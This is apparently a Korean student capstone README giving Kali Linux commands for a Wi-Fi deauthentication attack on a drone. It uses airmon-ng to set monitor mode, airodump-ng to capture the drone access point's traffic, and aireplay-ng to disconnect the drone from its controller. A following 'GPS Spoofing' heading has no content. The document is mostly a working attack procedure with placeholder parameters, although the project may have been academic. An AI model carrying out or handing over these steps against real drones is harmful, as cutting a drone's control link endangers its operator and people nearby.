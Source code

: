 캡스톤디자인I 코드
=================


1.인증해제 공격
---------------

무선 랜카드가 장착된 Kali Linux 환경에서 행한다.

> 불필요한 프로세스를 종료하고, 공격에 이용할 무선랜의 이름을 확인한다.
>
>```bash
>airmon-ng check kill
>iwconfig
>```


> 무선랜을 모니터 모드로 전환하고, 드론 AP의 패킷을 수집한다.
>
>```bash
>airmon-ng start [무선랜 이름]
>airodump-ng [무선랜 이름] --essid-regex [드론의 MAC주소] -w [저장 파일명]
>```


>수집한 패킷에서 제어 기기의 MAC주소를 확인하고, 인증해제 공격을 실행한다.
>
>```bash
>iwconfig [무선랜 이름] channel [드론 AP의 채널]
>aireplay-ng --deauth [공격 시간] -a [드론의 MAC주소] -c [제어 기기의 MAC주소] [무선랜 이름]
>```



2.GPS Spoofing
---------------


